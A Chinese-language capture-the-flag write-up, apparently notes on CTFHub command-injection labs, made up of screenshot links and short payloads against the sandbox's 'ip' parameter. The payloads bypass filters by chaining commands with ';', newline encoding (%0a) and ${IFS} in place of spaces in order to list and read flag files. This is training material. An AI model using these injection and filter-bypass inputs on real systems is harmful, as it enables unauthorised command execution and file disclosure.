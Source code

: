```php
http://challenge-66d5d23f43cc02ba.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cat<flag_35921562431926.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751697774795-62798081-58c7-42ed-946f-0504328111ae.png)

### 过滤目录分隔符
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751697844791-c1a2fbc9-7892-48ab-bb14-060e923d10bd.png)

`127.0.0.1|cat flag_is_here`无内容，`ls -l`分析是目录

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751698094416-62a403be-cf7e-4144-ab5f-0120ab95a940.png)

查看目录

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751698154019-cc573664-ea1c-4262-ae1b-6d535145d96a.png)

```php
http://challenge-ccfac5e714299f03.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cd flag_is_here;cat flag_27471845213010.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751698246701-c92ece9c-e533-46c9-bb0e-b7f2d23a06ea.png)

### 过滤运算符
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751698443422-d4a46158-8789-43c1-becc-637b0947fe9b.png)

只过滤了`|`、`&`未过滤`;`

`127.0.0.1|ls`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751698519398-f3a55fb2-09cd-4332-a760-293cbfa9bdda.png)

`127.0.0.1;cat flag_69852691721920.php`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751698591654-4a81246d-3552-4295-b5b0-c51dac9493df.png)

### 综合过滤练习
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751698625612-4e3ea166-1c2d-41b3-989e-0aa8d6ac6555.png)

过滤了`|`、`&`、`;`、` `、`/`、`cat`、`flag`、`ctfhub`

```php
127.0.0.1%0als
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751699053468-7ce63c66-a55b-4b3f-9b02-004626dfff2e.png)

```php
127.0.0.1%0als${IFS}-R #${IFS}代替空格ls -R
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751700012016-4e32baaf-27ea-4625-a87f-62d25ef13749.png)
